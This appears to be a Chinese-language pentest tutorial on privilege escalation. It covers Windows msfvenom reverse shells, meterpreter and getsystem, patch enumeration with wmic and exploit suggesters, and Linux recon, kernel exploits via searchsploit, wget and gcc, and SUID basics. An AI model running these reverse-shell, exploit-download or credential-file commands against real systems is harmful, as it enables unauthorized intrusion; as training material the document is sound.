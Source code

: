 **提权Webshell：**尽量能够获取webshell，如果获取不到webshell可以在有文件上传的地方上传反弹shell脚本；或者利用漏洞（系统漏洞，服务器漏洞，第三方软件漏洞，数据库漏洞）来获取shell。  
**反弹shell：**利用kali虚拟机msfVENOM编写反弹shell脚本  
被控制端发起的shell---通常用于被控制端因防火墙受限，权限不足、端口被占用  
**开启监听：**msfconsole模块监听响应的反弹shell脚本（当靶机点击脚本的时候），进入meterpreter模块，可以getsystem权限，获取信息等等，还可以开启远程服务功能（lcx，scocks5）  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bf3eb27de9606c485572d20fd8f663c4b482a332.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bf3eb27de9606c485572d20fd8f663c4b482a332.png)  
**Windows系统溢出漏洞提权**  
windows(可执行文件：一种是.com；另一种.exe)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1b01bd3771402fc86c4341bf15272b932ec78eb3.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1b01bd3771402fc86c4341bf15272b932ec78eb3.png)  
**系统溢出漏洞操作说明**  
`1、明确漏洞编号及版本 2、明确漏洞利用平台及版本 3、确保cmd执行权限正常运行 4、确保服务器相关防护软件情况`  
**查看系统补丁，提权前期准备【前提已获取webshell】**

> 方法一：输入shell进入到该主机的shell下，然后：systeminfo 查看系统详细信息  
> 方法二：进入到 meterpreter 下，执行 run post/windows/gather/enum\_patches 可以直接查看补丁情况  
> 方法三：post/multi/recon/local\_exploit\_suggester 模块，用于快速识别系统中可能被利用的漏洞  
> 方法四：WMIC命令也可以查看补丁数量  
> wmic qfe get Caption,Description,HotFixID,InstalledOn  
> 也可以直接找是否存在某个cve-2018-8120对应的KB4131188补丁  
> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB4131188"  
> 方法五：Windows Exploit Suggester  
> 该工具可以将系统中已经安装的补丁程序与微软的漏洞数据库进行比较，并可以识别可能导致权限提升的漏洞，而其只需要目标系统的信息。

通过msf生成反弹exe进行反弹操作，获取meterpreter通道  
监听获取成功后，进行exp的筛选  
探测可提取的模块use post/multi/recon/local\_exploit\_suggester

\[========\]  
**linux提权**  
**linux基础信息收集**  
uname -a 显示全部系统信息  
cat /etc/issue 内核信息。此命令也适用于所有的Linux发行版  
cat /etc/passwd 所有人都可看  
ps aux | grep root  
**(1)内核漏洞提权**  
方法：  
通过信息收集方式得知linux内核版本  
使用searchspolit搜索相应版本漏洞  
例：searchsploit linux 4.0.0  
searchsploit Ubuntu 16.04  
searchsploit Ubuntu 16 kernel 3.10  
找到对应的.c源文件,将其发送到靶机/或是靶机下载 scp， wget <http://127.0.0.1/xx.c>  
编译，gcc xxx.c -o exp  
**(2)SUID提权**  
概念  
SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。  
特点  
SUID 权限仅对二进制程序有效  
执行者对于该程序需要有可执行权限(x权限)  
SUID 权限仅仅在程序执行过程中有效  
执行该程序时，执行者将具有该程序拥有者的权限
